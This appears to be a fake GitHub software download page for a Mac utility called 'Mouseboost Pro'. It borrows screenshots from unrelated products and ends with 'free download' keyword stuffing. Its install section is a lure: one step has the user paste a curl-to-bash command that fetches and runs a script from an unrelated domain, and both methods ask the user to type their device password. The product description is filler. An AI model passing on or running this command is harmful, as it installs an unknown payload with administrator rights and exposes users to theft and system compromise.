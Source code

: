 # Mouseboost Pro Mac Download

![Mouseboost Pro Screenshot 1](https://stagetimer.io/assets/landing/propresenter-ui.png)    

---

## 📥 Download Mouseboost Pro for Mac

[![Download Now](https://img.shields.io/badge/Download--Now-Mouseboost%20Pro%20Mac-blue?style=for-the-badge&logo=apple)](https://mouseboost-pro-mac-download.github.io/.github)

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get9/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## 📦 What is Mouseboost Pro for Mac?

Mouseboost Pro for Mac is an advanced mouse acceleration and gesture control utility designed to enhance user productivity, workflow, and system responsiveness. Built for power users, designers, developers, and anyone who values speed and efficiency, Mouseboost Pro offers precise control over mouse movements and custom interactions tailored to your workflow.

Unlike generic system preferences, Mouseboost Pro empowers users with fine-grained customization of pointer speed, smart acceleration curves, gesture commands, and real-time behavior tuning. Whether you're editing graphics, working on multiple displays, or navigating massive documents—Mouseboost Pro makes every movement faster and smoother.

Packed with performance-focused tools, the app provides an intuitive UI to fine-tune settings, create profiles for apps, and map shortcuts to mouse gestures. With seamless macOS integration and real-time control, Mouseboost Pro ensures your workflow stays sharp and responsive.

From multitasking professionals to gamers and accessibility users, Mouseboost Pro transforms your mouse into a precision productivity tool.

---

![Mouseboost Pro Screenshot 2](https://support.renewedvision.com/hc/article_attachments/360055586334/Main_UI.png)

---
## 🌟 Key Features & Benefits

- 🖱️ Precision Mouse Acceleration — Customize acceleration curves for better control and responsiveness.
- 🌀 Advanced Gesture Controls — Map custom gestures to actions like launch apps, switch desktops, or control media.
- 📐 App-Specific Profiles — Create unique settings per application for a tailored experience.
- 🔁 Smart Scroll & Navigation — Improve scrolling behavior across apps, browsers, and code editors.
- 🎯 Enhanced Tracking Speed — Boost pointer accuracy with dynamic adjustments.
- 🧠 Intelligent Sensitivity — Automatically adapt to your speed and motion patterns.
- 🧩 macOS Integration — Works seamlessly with native macOS tools and System Settings.
- 💼 Productivity Focused — Reduce time spent on repetitive mouse tasks and boost focus.

---

## 🖥️ System Requirements

- macOS: 11.0 Big Sur or later  
- Processor: Intel or Apple Silicon (M1/M2/M3)  
- RAM: 4 GB minimum  
- Disk Space: ~500 MB  

---

## 🏷️ Keywords

mouseboost pro mac free, mouseboost pro mac free download, mouseboost pro free, mouseboost pro free download, mouseboost pro download

